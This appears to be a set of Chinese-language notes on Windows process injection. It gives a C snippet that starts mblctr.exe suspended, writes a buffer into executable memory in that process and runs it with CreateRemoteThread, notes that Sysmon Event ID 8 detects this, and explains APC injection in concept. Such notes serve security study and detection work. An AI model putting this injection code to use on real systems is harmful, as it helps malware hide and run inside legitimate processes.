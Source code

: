 ### CreateRemoteThread(NewProcess)
Sysmon对Event ID 8: CreateRemoteThread有监控

```c
STARTUPINFOEXA si;
PROCESS_INFORMATION pi;

ZeroMemory(&si, sizeof(si));
si.StartupInfo.cb = sizeof(STARTUPINFOEXA);
si.StartupInfo.dwFlags = STARTF_USESHOWWINDOW;

BOOL success = CreateProcessA(
		NULL,
		(LPSTR)"C:\\Windows\\System32\\mblctr.exe",
		NULL,
		NULL,
		true,
		CREATE_SUSPENDED | EXTENDED_STARTUPINFO_PRESENT,
		NULL,
		NULL,
		reinterpret_cast<LPSTARTUPINFOA>(&si),
		&pi);
	// Assign our attribute

	HANDLE notepadHandle = pi.hProcess;
	LPVOID remoteBuffer = VirtualAllocEx(notepadHandle, NULL, sizeof data, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	
WriteProcessMemory(notepadHandle, remoteBuffer, data, sizeof data, NULL);
	HANDLE remoteThread = CreateRemoteThread(notepadHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);

if (WaitForSingleObject(remoteThread, INFINITE) == WAIT_FAILED) {
	return 1;
}
```

### 异步过程调用(APC)注入

1. 概念
APC可以看成就是内核里的定时器, 为了给自己一个在本函数返回后还能执行的一次机会, 有很多操作是需要在函数返回后才能执行, APC类似于析构函数但不完全是.


2. 特点
apc的最大特点就是在本函数返回后才执行, 而且是在本线程中.

对于用户模式下的APC队列，当线程处在`alertable`状态时才去执行这些APC函数。因此，在ring3 User-Mode下最暴力的办法就是给每个线程设置成alertable（遍历线程的时候从后往前遍历着插入就不会崩溃）

> alertable “可唤醒的”
> SleepEx()---->KeDelayExecutionThread()
> WaitForSingleObject()---->KeWaitForSingleObject()
> WaitForMultipleObjects()---->KeWaitForMultipleObjects()
> 
> 当上述调用发生时，线程Alertable被置为TRUE。同时，还会通过宏TestForAlertPending设置KTHREAD的另外一个成员：UserApcPending，当Alertable为TRUE，并且User APC队列不为空，那么该值将被置为TRUE。
